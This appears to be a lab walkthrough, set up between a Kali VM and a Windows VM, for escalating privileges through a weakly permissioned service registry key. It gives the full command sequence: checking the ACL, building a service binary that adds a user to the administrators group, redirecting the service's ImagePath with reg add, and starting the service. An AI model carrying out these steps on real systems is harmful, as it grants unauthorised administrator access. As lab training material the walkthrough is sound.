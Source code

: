 ### Service Escalation - Registry
```bash
Get-Acl HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | Format-List
```
**Expected output **
```
NT AUTHORITY\**INTERACTIVE Allow FullControl
```

### Expoit

**Kali VM**
1. Open [windows_service.c](https://github.com/sagishahar/scripts/blob/master/windows_service.c) in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`  
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
 (NOTE: if this is not installed, use `sudo apt install gcc-mingw-w64`) 
 3. Copy the generated file x.exe, to the Windows VM.

**Windows VM**

1. Place x.exe in `C:\Temp`  
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`  
3. In the command prompt type: `sc start regsvc`  
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`